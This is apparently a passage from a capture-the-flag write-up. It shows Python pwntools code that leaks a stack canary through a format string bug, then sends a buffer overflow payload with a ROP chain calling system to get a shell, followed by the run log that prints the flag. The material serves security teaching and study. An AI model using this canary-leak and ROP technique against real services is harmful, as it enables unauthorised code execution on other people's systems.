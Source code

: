 ```
#Execute the format string exploit to leak the stack canary
target.sendline("2")
target.sendline("%23$llx")
target.recvline()
canary = target.recvline()
canary = int(canary, 16)
print "canary: " + hex(canary)
print target.recvuntil("Exit the battle")

#Put the Rop chain together, and send it to the server to exploit it
target.sendline("1")
payload = "0"*136 + p64(canary) + "1"*8 + p64(gadget0) + p64(cat_adr) + p64(sys_adr)
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

Let's run the exploit:

```
$    python exploit.py
[+] Opening connection to 146.185.132.36 on port 19153: Done
Welcome to the battle !
[Great Fairy] level pwned
Select your weapon
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
canary: 0x7e351a5ff4b1ec00
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
[*] Switching to interactive mode
 
-> 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}
[*] Got EOF while reading in interactive
```

Just like that, we captured the flag!
